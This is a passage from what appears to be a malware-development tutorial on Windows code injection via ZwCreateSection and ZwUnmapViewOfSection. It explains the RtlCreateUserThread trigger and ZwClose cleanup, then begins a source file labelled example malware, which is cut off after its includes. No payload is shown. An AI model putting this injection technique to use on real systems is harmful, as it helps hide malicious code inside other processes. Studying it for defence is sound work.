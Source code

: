 ![injection 3](/assets/images/35/2022-01-16_23-40.png){:class="img-responsive"}    

instead of `RtlCreateUserThread` for triggering payload.    

And another difference is we used `ZwClose` for close handles (clean up):    

```cpp
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);
```
![injection 4](/assets/images/35/2022-01-16_23-47.png){:class="img-responsive"}    

So, the full source code of our example malware is:    
```cpp
/*
 * hack.cpp - code injection via ZwCreateSection, ZwUnmapViewOfSection
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/01/14/malware-injection-13.html
*/
#include <cstdio>
#include <windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll")

// ZwCreateSection
```